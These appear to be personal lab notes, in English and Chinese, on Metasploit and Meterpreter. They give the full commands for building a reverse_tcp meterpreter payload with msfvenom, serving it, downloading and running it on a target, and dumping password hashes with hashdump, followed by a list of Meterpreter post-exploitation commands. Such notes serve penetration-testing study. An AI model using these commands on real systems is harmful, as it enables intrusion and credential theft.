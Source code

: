 	 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	 
	 --> TASK : to get other user's password hash
	 	--> 終端1 :
		 	--> ssh murphy@10.10.50.32
		 	--> sudo su // root
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 	
	 	--> 終端2 :
		 	--> kali -- copy a file to shell.elf : msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.92.230 LPORT=4444 -f elf > shell.elf
		 	
		 	--> msfconsole 
			--> use exploit/multi/handler 
			--> set payload linux/x86/meterpreter/reverse_tcp
			--> set LHOST 10.11.92.230
			--> set LPORT 4444 
			--> show options 
			--> run
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> 終端3 :
			-->開啟一個簡易的webserver: python3 -m http.server 9000
			
		--> 終端1 : under ssh 
			--> wget http://10.11.92.230:9000/shell.elf
			--> chmod 777 shell.elf
			--> ./shell.elf
			
		--> back to 終端2 : meterpreter > 
			--> run post/linux/gather/hashdump : 利用模組轉儲系統上其他使用者的雜湊值
		
## Metasploit: Meterpreter
	--> 避免在防毒掃描期間被偵測到
	--> 避免被基於網路的 IPS（入侵防禦系統）和IDS （入侵偵測系統）
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> upgrade to meterpreter 
		--> search shell_to_meterpreter 
			=> 開啟另一個新會話 use 0 => use post/multi/manage/shell_to_meterpreter 
			=> sessions -l => show options => set SESSION 1 => run 
			=> 選擇該會話並執行該會話 session -l => sessions -i <New-meterpeter-session>
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
	--> 了解可用Meterpreter版本
		--> msfvenom --list payloads | grep meterpreter
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> use exploit/multi/handler : 用於接收反向shell	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 使用哪個版本的Meterpreter
		--> 目標作業系統
		--> 目標系統上可用的元件（是否安裝了Python？這是一個PHP網站嗎？等）
		--> 與目標系統建立的網路連線類型（它們是否允許原始TCP連線 //Https )
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> command : help 列出所有可用命令
	
	--> meterpreter > 
		--> other : https://www.offsec.com/metasploit-unleashed/meterpreter-basics/
		--> search -f flag.txt : find file 
		--> background : 返回「msf」提示符
		--> cat | cd | pwd 
			--> cd ../../ => c:\ --> cd  
			--> cat "C:\"
		--> download c:\\boot.ini  : 從遠端電腦下載檔案
		--> edit edit.txt : vim
		--> execute -f cmd.exe -i -H : 在目標上運行命令
		--> getuid : 顯示 Meterpreter 伺服器在主機上執行的使用者
			--> 使您了解目標系統上可能的權限等級
		--> run post/windows/gather/hashdump : hashdump post模組將轉儲SAM資料庫的內容。